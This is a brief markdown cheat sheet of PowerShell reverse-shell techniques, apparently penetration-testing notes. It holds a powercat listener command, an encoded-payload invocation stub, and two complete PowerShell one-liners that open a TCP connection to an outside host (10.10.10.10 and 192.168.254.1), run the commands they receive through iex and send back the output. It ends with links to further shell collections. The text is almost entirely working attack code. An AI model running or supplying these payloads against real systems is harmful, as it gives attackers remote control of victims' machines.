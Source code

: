 # Reverse Shell

```
powercat -l -v -p 4444 -t 1000
```

```
powershell -e "<encoded-payload>"
```

Payload:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Shortened Payload:
```
#$sm=(New-Object Net.Sockets.TCPClient("192.168.254.1",55555)).GetStream();[byte[]]$bt=0..255|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

> http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

# TCP / UDP / WMI Shells: 
> https://github.com/samratashok/nishang/tree/master/Shells
